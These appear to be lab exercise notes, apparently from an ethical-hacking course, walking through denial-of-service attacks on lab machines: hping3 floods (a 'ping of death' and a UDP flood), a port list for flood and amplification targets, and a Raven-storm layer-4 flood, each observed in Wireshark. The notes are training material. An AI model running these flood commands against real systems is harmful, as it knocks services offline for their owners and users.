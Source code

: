 #### Ping of Death attack

+ Open the `terminal`
+ sudo su
+ cd
+ hping3 -d 65538 -S -p 21 --flood 10.10.1.11
+ Open `wireshark` on `Windows 11` with `Admin`
+ Start a capture on the `Ethernet` interface
+ Stop the capture and the attack

#### UDP application layer flood attack

+ Open the `terminal`
+ sudo su
+ cd
+ nmap -p 139 10.10.1.19
+ hping3 -2 -p 139 --flood 10.10.1.19
  + -2: specifies the UDP mode
  + -p: specifies the destination port
  + --flood: sends a huge number of packets
+ Open `wireshark` on `Windows Server 2019` with `Administrator`
+ Start a capture on the `Ethernet 2` interface
+ Stop the capture and the attack
+ Attacks can be carried out the ping flood
  + CharGEN (Port 19)
  + SNMPv2 (Port 161)
  + QOTD (Port 17)
  + RPC (Port 135)
  + SSDP (Port 1900)
  + CLDAP (Port 389)
  + TFTP (Port 69)
  + NetBIOS (Port 137,138,139)
  + NTP (Port 123)
  + Quake Network Protocol (Port 26000)
  + VoIP (Port 5060)

### Task 3: Perform a DoS Attack using Raven-storm

+ Open the `terminal`
+ sudo su
+ sudo rst
+ Type `l4` and press `Enter` to load `layer4` module (UDP/TCP)
+ Open `wireshark` on `Windows Server 2019` with `Administrator`
+ Start a capture on the `Ethernet 2` interface
+ In the terminal window, type `ip 10.10.1.19` and press `Enter` to specify the target IP address
+ Type `port 80` and press `Enter`, to specify the target port
+ Type `threads 20000` and press `Enter`, to specify number of threads
+ Now, in the terminal type `run` and press `Enter`, to start the DoS attack on the target machine
+ Observe a large number of packets received from `Parrot Security` machine (10.10.1.13) on the `Windows Server 2019`
+ Stop the capture and the attack
